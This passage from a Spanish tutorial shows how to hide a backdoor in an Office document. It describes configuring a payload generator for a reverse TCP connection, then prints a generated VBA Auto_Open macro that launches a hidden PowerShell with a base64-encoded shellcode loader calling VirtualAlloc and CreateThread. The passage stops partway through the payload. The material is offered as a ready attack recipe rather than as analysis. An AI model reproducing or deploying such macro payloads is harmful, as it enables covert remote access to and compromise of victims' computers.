 <p align="center">
<img src="/assets/images/esconder-backdoor-en-documento/img1.png" width="100%">
</p>

Al ejecutarlo vemos que nos muestra el modo de uso, el cual es bien sencillo, solo tenemos que pasarle los parametros necesarios, y como trabajamos con una conexión TCP debemos de pasarle el puerto y la IP origen.

> NOTA: si quieres trabajar fuera de red local acuerdate de que tienes que abrir un puerto para tu ip pública

En mi caso será dentro de red local por lo que no será necesario que abra ningún puerto. La configuración quedaría tal que así:

<p align="center">
<img src="/assets/images/esconder-backdoor-en-documento/img2.png" width="100%">
</p>

Vemos que en la opción **-t** usaremos el encode de **vba**, en otra palabras visual basic for application, que como ya sabemos es el lenguaje de macros de microsoft que se usa para programar aplicaciones windows. En cuanto presionemos enter nos saldrá un rollo como este:

```
Sub Auto_Open()

stringA = "power"
stringB = "shell.exe -NoE -NoP -NonI -W Hidden -E "
            
string0="JAAxACAAPQAgACcAJABjACAAPQAgACcAJwBbAEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACkAXQBwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAFYAaQByAHQAdQBhAGwAQQBsAGwAbwBjACgASQBuAHQAUAB0AHIAIABsAHAAQQBkAGQAcgBlAH"
string1="MAcwAsACAAdQBpAG4AdAAgAGQAdwBTAGkAegBlACwAIAB1AGkAbgB0ACAAZgBsAEEAbABsAG8AYwBhAHQAaQBvAG4AVAB5AHAAZQAsACAAdQBpAG4AdAAgAGYAbABQAHIAbwB0AGUAYwB0ACkAOwBbAEQAbABsAEkAbQBwAG8AcgB0ACgAIgBrAGUAcgBuAGUAbAAzADIALgBkAGwAbAAiACkAXQBwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBj"
string2="ACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEMAcgBlAGEAdABlAFQAaAByAGUAYQBkACgASQBuAHQAUAB0AHIAIABsAHAAVABoAHIAZQBhAGQAQQB0AHQAcgBpAGIAdQB0AGUAcwAsACAAdQBpAG4AdAAgAGQAdwBTAHQAYQBjAGsAUwBpAHoAZQAsACAASQBuAHQAUAB0AHIAIABsAHAAUwB0AGEAcgB0AEEAZABkAHIAZQBzAHMALA"
string3="AgAEkAbgB0AFAAdAByACAAbABwAFAAYQByAGEAbQBlAHQAZQByACwAIAB1AGkAbgB0ACAAZAB3AEMAcgBlAGEAdABpAG8AbgBGAGwAYQBnAHMALAAgAEkAbgB0AFAAdAByACAAbABwAFQAaAByAGUAYQBkAEkAZAApADsAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAbQBzAHYAYwByAHQALgBkAGwAbAAiACkAXQBwAHUAYgBsAGkAYwAgAHMA"
```